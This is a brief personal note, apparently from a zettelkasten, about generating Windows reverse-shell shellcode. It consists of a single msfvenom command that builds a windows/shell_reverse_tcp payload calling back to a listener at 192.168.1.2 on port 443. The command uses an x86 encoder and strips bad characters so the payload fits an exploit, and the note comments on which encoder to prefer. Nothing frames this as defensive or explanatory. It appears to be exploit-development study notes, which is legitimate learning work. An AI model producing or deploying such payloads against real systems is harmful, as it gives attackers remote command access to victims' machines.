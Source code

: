 # Generate reverse shell shellcode payload

Normally use `x86/shikata_ga_nai` but if that is not stable then use `x86/xor_dynamic`

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 EXITFUNC=thread -e x86/xor_dynamic  -b "\x00\x0d" -f python
```

` zet/20221003150527/README.md `

# Related

- [20221007185940](/zet/20221007185940/README.md) unsorted nodes

Tags:

    
